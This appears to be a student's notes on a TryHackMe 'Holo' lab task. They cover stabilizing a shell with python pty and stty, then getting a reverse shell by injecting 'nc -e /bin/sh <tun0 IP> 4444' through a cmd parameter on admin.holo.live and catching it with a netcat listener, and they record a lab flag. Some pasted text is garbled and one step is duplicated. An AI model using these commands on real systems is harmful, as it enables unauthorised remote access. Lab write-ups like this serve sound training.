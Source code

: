Now that we have a shell on the box, we want to stabilize our shell. For the most part, stabilizing shells is straightforward by using other utilities like python to help; however, some steps can take longer or change depending on the shell you use. The below instructions will be for bash and ZSH; any other shells or operating systems, you will need to do your research on stabilizing shells within their environment.  

Instructions found throughout this room are inspired by this fantastic blog post, [https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/). All credit for the techniques shown goes to ropnop.  

There are several ways to stabilize a shell; we will be focusing on using python to create a pseudo-terminal and modifying stty options. The steps are the same for all target machines, but they may differ depending on the shell or operating system used on your attacking machine.  

To begin, we will create a pseudo-terminal using python. The command can be found below.  

Syntax: `python3 -c 'import pty; pty.spawn("/bin/bash")'`

Once we have a pseudo shell, we can pause the terminal and modify stty options to optimize the terminal. Follow the steps below exactly for bash shells.  

1. `stty raw -echo`

2. `fg`

**Note****:** If you're u> [!INFO]
You have shell onto  L-SRV01.sing ZSH, you **must** combine `stty raw -echo;fg`  onto one line, or else your shell will break  

At this point, you will get your pseudo-terminal back, but you may notice that whatever you type does not show up. For the next step, you will need to type blindly.  

3. `reset`

4. `export SHELL=BASH`

For the next two steps, you will need to use the information you got from step 1. 

5. `export SHELL=BASH`

6. `export TERM=<TERMINAL>`

7. `stty rows <num> columns <cols>`


---

# Your job

## Reverse Shell

- Payload is: `nc+-e+/bin/sh+<tun0 IP>+4444`.
	This tells netcat to send /bin/sh command line to your IP and port. Putting this into the RCE, you get the following URL:
	`admin.holo.live/dashboard.php?cmd=nc+-e+/bin/sh+<tun0 IP>+4444`
- Visit the URL on the browser or on Burp Suite Repeater.

	![[Task 14 - Meterpreter session 1 closed. Reason RUH ROH-20240910150700382.webp]]

## Listener

- On your attacking machine open a netcat listener.

	`nc -lnvp 4444`

- On Repeater click "Send".
	![[Task 14 - Meterpreter session 1 closed. Reason RUH ROH-20240910150823201.webp]]
	You got a Revers Shell.

> [!INFO]
You have shell onto  L-SRV01.
## Stabilize shell

In this case you'll have to use `python3`.
`python3 -c 'import pty; pty.spawn("/bin/bash")'`

## Flag on Docker container

- On the Reverse Shell go to `www-data@555e6e40ede0:/var/www$` and run:
	`cat user.txt`

	HOLO{175d7322f8fc53392a417ccde356c3fe}


- Submit the user flag on Task 4, question 1.


**Next step:** [[Task  15 -  Docker? I hardly even know her!]]
